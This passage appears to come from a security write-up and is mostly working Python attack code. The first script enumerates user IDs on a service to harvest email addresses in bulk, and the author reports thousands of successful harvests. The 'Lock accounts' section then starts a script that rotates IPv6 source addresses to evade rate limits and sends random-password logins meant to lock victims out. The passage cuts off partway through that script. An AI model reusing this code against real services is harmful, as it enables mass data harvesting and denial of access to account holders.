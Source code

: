 ```
			f.write(username + '\n')
			f.close()
			if "email" in ret.keys():
				print email
				f = open("emails.txt",'a')
				f.write(email + '\n')
				f.close()
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = []
	done = [i.strip() for i in open("email-done.txt")]
	for i in string.lowercase[:1]:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['users']:
				if k['username'] not in done:
					tasks.append(k['username'])
	pool = Pool(20)
	pool.map(main, tasks)
```

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa5.png)

After enumerating `30k+` ID's I stopped the testing, and `2887` of them returned with success: (ps. emmmm悄悄的说，后来我获取到了几万)

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa0.png)

As such, for total `600k` ID's, we may be able to get at least tens thousands of valid email addresses.

## 0x03 Lock accounts:

```
import sys
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(email):
	datas = {
		"email":email,
		"password":''.join(random.sample(string.lowercase,10)),
		"remember_me":"false"
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
```